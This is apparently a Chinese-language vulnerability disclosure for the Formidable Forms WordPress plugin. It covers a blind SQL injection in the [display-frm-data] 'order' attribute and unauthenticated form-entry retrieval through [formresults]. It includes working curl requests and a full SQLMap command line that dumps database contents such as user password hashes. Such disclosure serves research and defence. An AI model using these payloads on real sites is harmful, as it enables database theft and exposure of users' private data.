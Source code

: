 

**SQL****注入漏洞**

****

Formidable专业版所支持的[display-frm-data]短代码包含一个SQL注入漏洞。其中的“order”短代码属性，在不进行任何检查和转义的情况下，就可以直接在ORDER BY子句中使用。例如，以下请求将会在服务器日志中产生一条SQL错误消息：



```
curl -s -i 'https://target.site/wp-admin/admin-ajax.php' 
      --data 'action=frm_forms_preview&amp;after_html=[display-frm-data id=123 order_by=id limit=1 order=zzz]'
```

利用这一漏洞有几个难点，但它们是可以解决的。**首先，我们需要进行的是一个盲SQL注入，攻击者并不能直接看到SQL查询的结果。并且，它只会影响响应中所显示项目的顺序。**尽管如此，通过借助SQLMap等工具，这一漏洞还是足以让我们检索到全部数据库内容。

其次，当Formidable进行SQL查询时，会使用多种方式来处理其中的“order”属性。如果参数中有逗号，那么插件会在结果中的每一个逗号后面加上字符串“it.id”。然而，如下面的例子所示，**SQLMap中的-eval参数可以在这里使用，我们可以通过在每个逗号后面添加“-it.id+”来解决这一问题。**

举例来说，根据这一规则，一个注入的“SELECT a, b”查询，将被转换为“SELECT a,it.id b”。我们所使用的-eval参数就可以将上述语句“修复”成“SELECT a, it.id-it.id+b”，实际上也就是原本我们想注入的查询语句。

此外，SQLMap中的Commalesslimit这一Tamper是用于避免LIMIT clauses所导致的问题。

SQLMap命令行样例：



```
./sqlmap.py -u 'https://target.site/wp-admin/admin-ajax.php' 
      --data 'action=frm_forms_preview&amp;before_html=[display-frm-data id=123 order_by=id limit=1 order="%2a( true=true )"]' 
      --param-del ' ' -p true --dbms mysql --technique B --string test_string 
      --eval 'true=true.replace(",",",-it.id%2b");order_by="id,"*true.count(",")+"id"'  
      --test-filter DUAL --tamper commalesslimit -D database_name 
      --sql-query "SELECT user_name FROM wp_users WHERE id=1"
```



这样一来，该漏洞就可以用于遍历系统上的数据库和表，并可以检索数据库中指定内容。**其中包括：WordPress用户的详细信息、密码哈希值、全部Formidable数据以及其他数据库中用户可以访问的内容。**如果使用上述命令行，必须要将database_name更改为现有的数据库名称，将123修改为有效的表单ID，并且test_string需要与该表单中的数据匹配，这样SQLMap才能够给出正确的响应。



**未授权的表单条目检索漏洞**

Formidable中的[formresults]短代码可用于**查看在该网站上提交任何表单之后所得到的响应。**在表单响应中，往往会包含联系人信息或者其他敏感内容。

以下是使用cURL命令行工具的检索示例：



```
curl 'https://target.site/wp-admin/admin-ajax.php' --data 'action=frm_forms_preview&amp;after_html=[formresults id=123]'
```

其获得的响应，会包含在ID为123的表单中提交的所有条目。
